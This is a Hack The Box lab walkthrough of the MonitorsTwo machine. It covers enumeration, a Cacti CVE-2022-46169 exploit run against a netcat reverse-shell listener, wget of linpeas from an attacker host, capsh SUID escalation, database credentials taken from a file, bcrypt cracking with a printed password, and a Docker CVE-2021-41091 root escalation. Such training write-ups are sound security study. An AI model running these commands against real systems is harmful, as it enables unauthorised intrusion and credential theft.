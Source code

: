 ### In this walkthrough, we will hack MonitorsTwo box from HTB
## Discovery
first of all we will test connection
```
ping 10.10.11.211
```
results:

![image](https://github.com/user-attachments/assets/d43f0f42-1f2f-428d-9881-04b5860d3f3e)

(ttl=63, around 63 tells us it is linux based machine, if ttl would be around 128 we would deal with windows based system)

Since we confirmed connection we can start enumerating with nmap command:
```
sudo nmap -sV -sC 10.10.11.211
```
flags:
- -sV - Service Version Detection
- -sC - Default Script Scan

results:

![image](https://github.com/user-attachments/assets/714e4d8a-f132-4baf-9f40-2edfad073b1e)

we can see that this box have two services open:
- ssh on port 22
- http on port 80

## Foothold

we dont have credentials to ssh for now and bruteforcing this is close to imposible, only one option is to see what is happening on http web server

![image](https://github.com/user-attachments/assets/2d8f33e6-e699-423f-a35d-89376f167405)

here i didnt even try deafult cacti credentials (wich work:admin, admin) just straight up started looking for CVE on internet and i found this github repo:
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git
```

![image](https://github.com/user-attachments/assets/32af2039-c63f-4cf2-8a34-553974527357)

i adjusted command to my case according to readme file and started netcat listener, commands:
```
nc -lvnp 443
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.5 --LPORT=443
```
And just like that we got container shell! (we can see it is container becouse of hostname of the container after www-data@ which is random string)
## User.txt
next i moved to /tmp, installed linpeas and ran it, commands:
```
cd /tmp
wget http://10.10.16.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://github.com/user-attachments/assets/3682e7fc-0a81-4151-975d-e84238df1a33)

We can see that 95% PE vector is highlighted in yellow-red, we look capsh up in gtfobins and found this SUID (Set User ID) command:
```
./capsh --gid=0 --uid=0 --
```

![image](https://github.com/user-attachments/assets/201f86fe-6758-43d9-9794-795878624f16)

So we go to /sbin and execute command:

![image](https://github.com/user-attachments/assets/8fb046bc-26f6-48c4-92fc-5e78d42f3ad6)

After that, I looked around the system to find anything unusual or something that stood out. I found a strange file called entrypoint.sh, so I opened it.

![image](https://github.com/user-attachments/assets/d206d119-755c-4b54-b8c2-f080f4f572b3)

Inside, we found a pretty interesting command along with credentials. We checked the command, and it worked—we got access to the MySQL database. I looked through the tables and found one containing usernames and password hashes, which seemed interesting.

![image](https://github.com/user-attachments/assets/51b5e0eb-6944-4504-89cb-86c7a5b44009)

I looked on the internet to find out what type of hash it is, and it turned out that we have got bcrypt hashes, which is a pretty strong hashing standard. Hopefully, at least one password will be weak.
Fun fact: Passwords hashed with this standard were compromised from the Internet Archive not long ago, from when I’m writing this post.

Here’s a little trick to find out the Hashcat mode faster, you just need to use --help flag and pipe it with grep "type":

![image](https://github.com/user-attachments/assets/e848bfe1-f98c-4efb-9186-19cc2935d592)

We use mode 3200, write the results to cracked.txt, and use the wordlist rockyou.txt (HTB uses passwords from this wordlist to prevent unnecessary long hours of cracking hashes).

![image](https://github.com/user-attachments/assets/dee357fe-f05e-409e-ac65-2bc2607babb8)

Hashcat was able to crack only one hash, it was marcus password:
```
ssh marcus@monitorstwo.htb
Password: funkymonkey
```
We ssh to marcus using his password, succesfuly obtaining user flag:

![image](https://github.com/user-attachments/assets/4ed7a52c-7887-4615-9e1d-87b89d62edca)

## Root.txt
This stage took me the most time on this box, although it was kind of obvious i ran:
```
id
uname -a
sudo -l
cat .bash_history
ps aux | grep "root"
./linpeas.sh (looked through, this took some time)
```
And finally, I remembered that there is a Docker container running, and we can gain root access on it, so I checked the Docker version:
```
docker --version
```

![image](https://github.com/user-attachments/assets/ba4cbb23-bd74-443c-8e6a-8a14c184623c)

Looked that version up on internet for any CVE and found this git hub page (you can check that for more insights on this exploit):
https://github.com/UncleJ4ck/CVE-2021-41091

So i followed up steps provided by readme file:

![image](https://github.com/user-attachments/assets/e32fb60c-13ba-449d-8539-f3916f2455d3)

We need to obtain access to the Docker container again, leverage privileges to root, and pass this command. Then, say 'yes' in our SSH session.
```
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/c23dfb03-3702-4d87-8e9b-f1a04a38a936)

I didn't get a shell right away, so I navigated to the provided path and executed the given command.
```
./bin/bash -p
```
And we got euid=0(root) which is equal to root priveleges!
## Conclusion
This box was really fun, it was simple but tinteresting i learned a bit about docker containers hope you also learned something, have good day and good luck on your next challenges!
